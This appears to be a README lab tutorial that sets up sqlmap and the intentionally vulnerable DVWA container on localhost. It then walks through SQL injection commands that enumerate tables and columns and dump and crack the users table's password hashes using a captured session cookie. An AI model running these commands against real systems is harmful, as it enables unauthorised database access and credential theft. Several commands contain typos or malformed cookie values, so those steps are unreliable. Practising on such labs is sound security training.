 # Installation SQLmap

Preferably, you can download sqlmap by cloning the Git repository:

```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation 
``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# create a virtual environment using DVWA 
```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
then open 127.0.0.1 using google 

```
username : admin
password: password
```

creat database 
<img src="./PNGs/Screenshot from 2024-05-09 14-21-51.png">

go to SQL injection 
<img src="./PNGs/Screenshot from 2024-05-09 14-33-51.png>

## SQL Attack
* write any input here

<img src="./PNGs/Screenshot from 2024-05-09 14-28-15.png">

copy the url and 1press F12 go to applicateion to cookies
and save the PHPSESSID and security level 

<img src="./PNGs/2.png">

using sqlmap to see all the tables in this web page using this 
* you need to change the url and PHPSESSID

```
cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
using sqlmap to see all tables schema using this comand 
```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
using sqlmap to see schema for specific table using this for users table
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```

if u need to see the table content and crack the password hashes using this comand 
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* in the last u will get output like this 

<img src ="./PNGs/3.png">


